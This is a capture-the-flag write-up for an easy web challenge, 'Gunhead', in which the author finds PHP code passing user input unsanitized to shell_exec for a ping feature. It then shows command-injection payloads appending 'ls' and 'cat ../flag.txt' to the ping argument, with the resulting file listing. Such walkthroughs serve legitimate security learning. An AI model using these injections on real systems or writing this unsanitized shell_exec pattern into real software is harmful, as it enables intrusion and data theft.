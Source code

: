 # Gunhead (very easy)
## Description
During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

## Initial Thoughts
Looking at the landing page there isn't much going on. There are 3 options on the panel.
1. Status
2. Needs 
3. Commamd (interesting)
Taking a look at command I see that we are able to ping devices.

## Close look at ping command
In the source code I see we can make a POST request to /api/ping. All the application does is ensure its in a readable format (json).

From there it gets directly passed to this function and we see this comment.
```
public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
```
With that I know I can do some remote execution.

## Payload
I check out the Command feature and try to add another command at the end.
```
PING 1 (0.0.0.1): 56 data bytes
Router.php
controllers
index.php
models
static
views
> /ping 1; ls;
```
and it works! I was able to see the files in the current directory on the server.

All it took from there was
`/ping 1; cat ../flag.txt;`
To get the flag
